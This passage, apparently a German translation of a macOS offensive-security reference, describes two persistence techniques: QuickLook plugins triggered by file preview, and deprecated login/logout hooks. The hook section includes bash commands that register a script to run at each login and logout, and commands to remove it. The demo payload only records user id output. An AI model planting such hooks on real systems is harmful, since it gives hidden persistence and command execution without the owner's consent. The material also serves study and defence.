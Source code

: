 #### Beschreibung & Ausnutzung

QuickLook-Plugins können ausgeführt werden, wenn Sie **die Vorschau einer Datei auslösen** (drücken Sie die Leertaste, während die Datei im Finder ausgewählt ist) und ein **Plugin, das diesen Dateityp unterstützt**, installiert ist.

Es ist möglich, Ihr eigenes QuickLook-Plugin zu kompilieren, es an einem der vorherigen Standorte zu platzieren, um es zu laden, und dann zu einer unterstützten Datei zu gehen und die Leertaste zu drücken, um es auszulösen.

### ~~Login/Logout-Hooks~~

{% hint style="danger" %}
Das hat bei mir nicht funktioniert, weder mit dem Benutzer-LoginHook noch mit dem Root-LogoutHook
{% endhint %}

**Writeup**: [https://theevilbit.github.io/beyond/beyond\_0022/](https://theevilbit.github.io/beyond/beyond\_0022/)

* Nützlich, um die Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* TCC-Umgehung: [🔴](https://emojipedia.org/large-red-circle)

#### Standort

* Sie müssen in der Lage sein, etwas wie `defaults write com.apple.loginwindow LoginHook /Users/$USER/hook.sh` auszuführen
* `Lo`cated in `~/Library/Preferences/com.apple.loginwindow.plist`

Sie sind veraltet, können aber verwendet werden, um Befehle auszuführen, wenn sich ein Benutzer anmeldet.
```bash
cat > $HOME/hook.sh << EOF
#!/bin/bash
echo 'My is: \`id\`' > /tmp/login_id.txt
EOF
chmod +x $HOME/hook.sh
defaults write com.apple.loginwindow LoginHook /Users/$USER/hook.sh
defaults write com.apple.loginwindow LogoutHook /Users/$USER/hook.sh
```
Diese Einstellung wird in `/Users/$USER/Library/Preferences/com.apple.loginwindow.plist` gespeichert.
```bash
defaults read /Users/$USER/Library/Preferences/com.apple.loginwindow.plist
{
LoginHook = "/Users/username/hook.sh";
LogoutHook = "/Users/username/hook.sh";
MiniBuddyLaunch = 0;
TALLogoutReason = "Shut Down";
TALLogoutSavesState = 0;
oneTimeSSMigrationComplete = 1;
}
```
Um es zu löschen:
```bash
defaults delete com.apple.loginwindow LoginHook
defaults delete com.apple.loginwindow LogoutHook
```
Der Root-Benutzer wird in **`/private/var/root/Library/Preferences/com.apple.loginwindow.plist`** gespeichert.
